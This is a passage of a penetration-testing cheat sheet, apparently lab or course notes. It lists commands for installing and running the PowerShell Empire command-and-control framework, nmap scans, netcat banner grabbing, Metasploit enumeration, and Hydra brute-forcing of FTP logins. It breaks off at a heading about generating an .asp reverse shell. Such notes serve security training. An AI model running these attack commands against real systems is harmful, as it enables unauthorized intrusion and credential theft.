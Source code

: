 ```bash
# POWERSHELL EMPIRE - Install
sudo apt update && sudo apt install -y powershell-empire

## Server run
sudo powershell-empire server

## Client run (another terminal session)
sudo powershell-empire client
listeners
agents
interact <ID>
history
```

### Win Exploitation

```bash
# Attacker's machine - Find target IP
cat /etc/hosts
ping <TARGET_IP>
ping <TARGET_FQDN>
mkdir <TARGET>
cd <TARGET>/

# Port Scanning - 1000 common ports or more advanced scans
nmap -sV <TARGET_IP>
nmap -T4 -PA -sC -sV -p 1-10000 <TARGET_IP> -oX nmap_10k
nmap -T4 -PA -sC -sV -p- <TARGET_IP> -oX nmap_all
nmap -sU -sV <TARGET_IP> -oX nmap_udp

# Banner Grabbing
nc -nv <TARGET_IP> 21

# Enumeration
service postgresql start && msfconsole
db_status
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
workspace -a <SERVICE_NAME>
db_import nmap_10k

hosts
services
use auxiliary/scanner/smb/smb_version
run
hosts
```

#### IIS/FTP

```bash
# Targeting IIS/FTP
nmap -sV -sC -p21,80 <TARGET_IP>
## Try anonymous:anonymous
ftp <TARGET_IP>

## Brute-force FTP
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <TARGET_IP> ftp

hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ftp -I
hydra -l <USER> -P /usr/share/wordlists/metasploit/unix_users.txt <TARGET_IP> ftp -I

## Generate an .asp reverse shell payload
```